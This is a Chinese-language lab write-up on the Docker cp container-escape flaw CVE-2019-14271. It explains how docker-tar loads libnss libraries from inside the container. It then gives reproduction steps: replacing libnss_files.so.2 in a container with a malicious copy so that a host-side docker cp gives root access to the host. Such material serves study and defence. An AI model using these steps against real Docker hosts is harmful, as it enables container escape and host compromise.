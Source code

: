 # Docker copy漏洞（CVE-2019-14271）

## 场景介绍

docker cp命令允许从容器、向容器中、或容器之间复制文件。语法与标准的unix cp命令非常相似。要从容器中复制`/var/logs`，语法是`docker cp container_name:/var/logs /some/host/path`。

在复制的过程中Docker使用了一个名为`docker-tar`的帮助进程。`docker-tar`是通过chroot到容器，将请求的文件或目录存档，然后将生成的tar文件传递给Docker daemon，然后由daemon提取到主机的目标目录中。

有漏洞的Docker版本是用Go v1.11编译的。在该版本中，一些含有嵌入C代码（cgo）的包会在运行时动态加载共享的库。这些包包括`net`和`os/user`，都是docker-tar使用的，而且在运行时会加载多个`libnss_*.so`库。一般来说，库是从`host`文件系统加载的，但因为`docker-tar`chroot到了容器，因此会从容器文件系统中加载库。也就是说`docker-tar`会加载和执行来源于容器或由容器控制的代码。因此，通过注入代码到`docker-tar`，恶意容器就可以获取host主机的完全root访问权限。

可能的攻击场景有Docker用户从另一个Docker处复制文件:

- 容器运行含有恶意`libnss_*.so`库的镜像
- 容器中含有被攻击者替换的`libnss_*.so`库

在这两种情况下，攻击者都可以获取主机上的root代码执行权限。

## 环境搭建

漏洞环境准备:

```
./metarget cnv install cve-2019-14271
```

## 漏洞复现

新建一个容器:

```
sudo docker run -itd --name=14271 ubuntu bash
```

将漏洞利用文件拷贝至容器内:

```
sudo docker cp exp/ 14271:/
sudo docker exec -it 14271 bash #进入容器
ls /exp
breakout  libnss_files.so.2  original_libnss_files.so.2

```

删除容器内原来的so库:

```
rm /lib/x86_64-linux-gnu/libnss_files.so.2
```

然后替换为修改后的恶意so文件:

```
mv libnss_files.so.2 /lib/x86_64-linux-gnu/
```

替换后退出容器，在宿主机上执行cp命令`sudo docker cp 14271:/logs ./`即可完成逃逸（若不成功，可查看breakout文件是否有执行权限）

进入容器内部，可发现根目录下存在host_fs目录挂载了宿主机的文件系统，成功逃逸。



## 参考文献

https://xz.aliyun.com/t/6806

https://zhuanlan.zhihu.com/p/93104462